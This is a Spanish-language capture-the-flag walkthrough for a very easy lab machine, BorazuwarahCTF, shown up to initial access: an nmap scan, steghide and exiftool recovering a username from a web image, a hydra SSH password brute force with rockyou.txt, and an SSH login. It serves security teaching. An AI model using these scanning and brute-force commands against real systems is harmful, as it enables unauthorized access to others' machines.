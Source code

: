 
**Autor:** [BorazuwarahCTF

**Dificultad:** Muy Fácil

**Fecha de creación:** 28/05/2024


DESPLIEGUE

```
bash auto_deploy.sh borazuwarahctf.tar
```


![Img](./images/Pasted%20image%2020241106191136.png)






------------------------
PROCEDIMIENTO:

Tenemos la IP: 
```
172.17.0.2
```



---------------------------

RECONOCIMIENTO

```
nmap -p- -sS -sV -sC --min-rate 5000 -n -vvv -Pn 172.17.0.2
```

`-p-` ⮞ aplicar reconocimiento a todos los puertos  
`--open` ⮞ solo a los que estén abiertos  
`--min-rate 5000` ⮞ para enviar paquetes más rápido  
`-sS` ⮞ para descubrir puertos de manera silenciosa y rápida  
`-vvv` ⮞ conforme descubre un puerto nos lo muestra por pantalla  
`-n` ⮞ no aplica la resolución DNS (tarda mucho en el caso de que no pongamos dicho parámetro)  
`-Pn` ⮞ ignora si esta activa o no la IP  
`-oG` ⮞ exportamos el resultado en formato grepeable (para extraer mejor los datos con herramientas como grep, awk)

![1](./images/Pasted image 20240917192325.png]

Nos vamos a la página web y nos sale :
![Img](./images/Pasted%20image%2020240917193213.png]

Nos descargamos la imagen y veremos si tiene algún archivo oculto. Haremos el siguiente comando:

```
steghide extract -sf imagen.jpeg
```

![[Pasted image 20240917193813.png]]

```
cat secreto.txt
```


![[Pasted image 20240917193842.png]]


Lo cual nos da una pista. Buscaremos  más información dentro de esta imagen como son los metadatos , usaremos `exiftool`, por lo cual usando el comando 

```
exiftool imagen.jpeg
```

![[Pasted image 20240917194039.png]]

Y ahí tenemos un usuario `borazuwarah`

Ahora fuerza bruta. 

```
hydra -l borazuwarah -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

![[Pasted image 20240917194231.png]]

```
ssh borazuwarah@172.17.0.2
```

![[Pasted image 20240917194342.png]]

Y ya estamos adentro. 
